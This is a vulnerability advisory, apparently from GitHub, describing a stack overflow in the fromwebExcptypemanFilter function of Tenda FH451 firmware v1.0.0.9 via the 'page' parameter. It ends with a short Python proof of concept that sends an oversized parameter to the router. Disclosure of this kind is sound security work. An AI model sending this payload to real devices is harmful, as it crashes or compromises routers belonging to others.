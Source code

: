 # Tenda FH451 fromwebExcptypemanFilter
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromwebExcptypemanFilter function.

### Vulnerability details
In function fromwebExcptypemanFilter line 19, it reads in a user-provided parameter `page`. The variable `v6` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/12.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/webExcptypemanFilter"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```